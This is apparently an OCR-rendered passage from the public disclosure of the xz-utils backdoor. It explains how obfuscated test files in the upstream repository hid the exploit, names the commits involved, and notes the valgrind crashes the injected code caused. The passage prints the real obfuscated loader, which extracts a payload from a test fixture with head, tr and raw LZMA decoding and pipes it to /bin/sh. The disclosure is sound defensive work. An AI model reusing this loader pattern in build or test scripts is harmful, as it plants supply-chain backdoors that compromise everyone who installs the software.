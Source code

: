 Leaving out the `| bash` that produces

```bash
####Hello####
#��Z�.hj�
eval `grep ^srcdir= config.status`
if test -f ../../config.status;then
eval `grep ^srcdir= ../../config.status`
srcdir="../../$srcdir"
fi
export i="((head -c +1024 >/dev/null) && head -c +2048
&& (head -c +1024 >/dev/null) && head -c +2048
&& (head -c +1024 >/dev/null) && head -c +2048
&& (head -c +1024 >/dev/null) && head -c +2048
&& (head -c +1024 >/dev/null) && head -c +2048
&& (head -c +1024 >/dev/null) && head -c +2048
&& (head -c +1024 >/dev/null) && head -c +2048
&& (head -c +1024 >/dev/null) && head -c +2048
&& (head -c +1024 >/dev/null) && head -c +2048
&& (head -c +1024 >/dev/null) && head -c +2048
&& (head -c +1024 >/dev/null) && head -c +2048
&& (head -c +1024 >/dev/null) && head -c +2048
&& (head -c +1024 >/dev/null) && head -c +2048
&& (head -c +1024 >/dev/null) && head -c +2048
&& (head -c +1024 >/dev/null) && head -c +2048
&& (head -c +1024 >/dev/null) && head -c +2048
&& (head -c +1024 >/dev/null) && head -c +724)";
(xz -dc $srcdir/tests/files/good-large_compressed.lzma
|eval $i
|tail -c +31265
|tr "\5-\51\204-\377\52-\115\132-\203\0-\4\116-\131" "\0-\377")
|xz -F raw --lzma1 -dc
|/bin/sh
####World####
```

After de-obfuscation this leads to the attached injected.txt.

---

### == Compromised Repository ==

The files containing the bulk of the exploit are in an obfuscated form in

- tests/files/bad-3-corrupt_lzma2.xz
- tests/files/good-large_compressed.lzma

committed upstream. They were initially added in

- https://github.com/tukaani-project/xz/commit/cf44e4b7f5dfdbf8c78aef377c10f71e274f63c0

Note that the files were not even used for any "tests" in 5.6.0.

Subsequently the injected code (more about that below) caused valgrind errors and crashes in some configurations, due the stack layout differing from what the backdoor was expecting.  
These issues were attempted to be worked around in 5.6.1:
